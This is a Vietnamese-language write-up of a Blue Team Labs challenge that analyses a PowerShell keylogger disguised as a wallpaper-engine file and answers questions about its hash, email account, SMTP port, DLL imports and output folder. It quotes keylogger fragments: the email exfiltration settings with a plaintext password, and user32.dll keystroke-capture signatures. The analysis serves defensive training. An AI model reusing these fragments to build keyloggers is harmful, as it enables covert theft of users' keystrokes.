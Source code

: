 ## Description
> A suspicious PowerShell script was found on one of our endpoints. Can you work out what it does?
## Link challenge
> https://blueteamlabs.online/home/challenge/powershell-analysis-keylogger-9f4ab9a11c
## Solution
- ***Câu 1 : What is the SHA256 hash value for the PowerShell script file?***
- Sau khi tải file về và giải nén em thu được 1 tệp tên `HDWallpaperEngine.txt` bên trong chứa các lệnh thực thi powershell
```
┌──(kali㉿kali)-[~/Downloads]
└─$ sha256sum HDWallpaperEngine.txt 
e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e  HDWallpaperEngine.txt
```
> A : e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e

- ***Câu 2 : What email address is used to send and receive emails?***
- Quan sát nội dung bên trong 
```
$TimesToRun = 2
$RunTimeP = 1
$From = "chaudhariparth454@gmail.com"
$Pass = "yjghfdafsd5464562!"
$To = "chaudhariparth454@gmail.com"
$Subject = "Keylogger Results"
$body = "Keylogger Results"
$SMTPServer = "smtp.mail.com"
$SMTPPort = "587"
$credentials = new-object Management.Automation.PSCredential $From, ($Pass | ConvertTo-SecureString -AsPlainText -Force)
```
- Có thể thấy địa chỉ email là chaudhariparth454@gmail.com
> A : chaudhariparth454@gmail.com
- ***Câu 3 : What is the password for this email account?***
- Tương tự tại dòng thứ 4 
> A : yjghfdafsd5464562!
- ***Câu 4 : What port is used for SMTP?***
- Kết quả nằm ở dòng thứ 9 : `$SMTPPort = "587"`
> A : 587
- ***Câu 5 : What DLL is imported to help record keystrokes?***
- Tại đây `function Start-KeyLogger($Path="$env:temp\keylogger.txt") `, `$env:temp:` Biến môi trường này trỏ đến thư mục tạm thời của hệ thống và `keylogger.txt`: Tên tệp văn bản sẽ lưu trữ các phím bấm.
- Ta lại thấy
```
 # Signatures for API Calls
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@
```
- [DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]: Khai báo sử dụng hàm từ user32.dll, tự động chọn CharSet.
- public static extern short GetAsyncKeyState(int virtualKeyCode);: Khai báo hàm trả về kiểu short (số nguyên ngắn) và nhận một tham số virtualKeyCode kiểu int (số nguyên).
- Chức năng: Hàm này kiểm tra trạng thái của một phím ảo (virtual key) cụ thể, cho biết phím đó có đang được nhấn hay không.
> A : user32.dll
- ***Câu 6 : What directory is the generated txt file put in?***
- Như đã giải thích ở trên tệp sẽ được lưu vào temp
> A : temp

